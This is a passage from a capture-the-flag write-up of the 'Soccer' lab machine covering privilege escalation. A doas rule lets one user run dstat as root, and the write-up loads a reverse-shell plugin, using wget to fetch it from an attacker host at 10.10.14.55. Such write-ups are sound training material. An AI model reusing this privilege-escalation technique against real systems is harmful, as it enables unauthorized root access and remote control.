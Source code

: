 Login with Player and cat file user.txt

user: `********************************`

---

## Privilege Escalation

---

### Enumeration

```sh
www-data@soccer:/etc/nginx/sites-enabled$ echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$ ls /usr/local/bin

doas  doasedit  vidoas

```
[What is doas???](https://www.maketecheasier.com/what-is-install-doas/#:~:text=Doas%20is%20a%20privilege%20escalation,systems%20through%20the%20OpenDoas%20program.)

```sh
$ cat /usr/local/etc/doas.conf
cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

---

### Exploitation

[How to exploit dstat to Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)

Doas permit nopass player as root do command at /sr/bin/dstat

We are prepare file dstat_exploit.py as plugin in dstat. Dstat_exploit.py is reshell python.

List and backconnect to get root Shell.

```sh
$ pwd
/usr/local/share/dstat

$ wget 10.10.14.55:1338/dstat_exploit.py
wget 10.10.14.55:1338/dstat_exploit.py --2023-04-26 01:43:27--  http://10.10.14.55:1338/dstat_exploit.py
Connecting to 10.10.14.55:1338... connected.
HTTP request sent, awaiting response... 200 OK
Saving to: â€˜dstat_exploit.pyâ€™

dstat_exploit.py    100%[===================>] 200 OK

$ dstat --list | grep exploit
dstat --list | grep exploit
        exploit     

```
